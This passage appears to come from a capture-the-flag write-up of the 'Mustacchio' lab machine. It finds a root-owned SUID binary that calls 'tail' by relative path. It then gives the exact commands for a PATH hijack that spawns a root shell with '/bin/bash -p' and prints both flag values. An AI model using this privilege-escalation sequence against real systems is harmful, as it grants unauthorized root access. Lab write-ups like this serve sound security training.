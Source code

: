 ```
/usr/bin/sudo
/usr/bin/newuidmap
/usr/bin/gpasswd
/home/joe/live_log
/bin/ping
/bin/ping6
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
```


Found something interesting, we got `/home/joe/live_log`, if we use strings to analyze it. we can find this:

![](cybersecurity/images/Pasted%2520image%252020250317185702.png)

This binary runs `tail -f /var/log/nginx/access.log` using a **relative path** (`tail` instead of `/usr/bin/tail`).

We can hijack the `tail` command by creating a malicious script named `tail` in a directory we control and prepend that directory to the `PATH`.

Since this is owned by root, we can escalate our privileges into root by doing this:


```
echo '/bin/bash -p' > /tmp/tail
chmod +x /tmp/tail
export PATH=/tmp:$PATH
/home/joe/live_log
```

We get this:

![](cybersecurity/images/Pasted%2520image%252020250317185813.png)

And we got root access, let's read both flags:


```
root@mustacchio:~# cat /home/barry/user.txt
62d77a4d5f97d47c5aa38b3b2651b831
```

```
root@mustacchio:~# cat /root/root.txt
3223581420d906c4dd1a5f9b530393a5
```

![](cybersecurity/images/Pasted%2520image%252020250317185906.png)

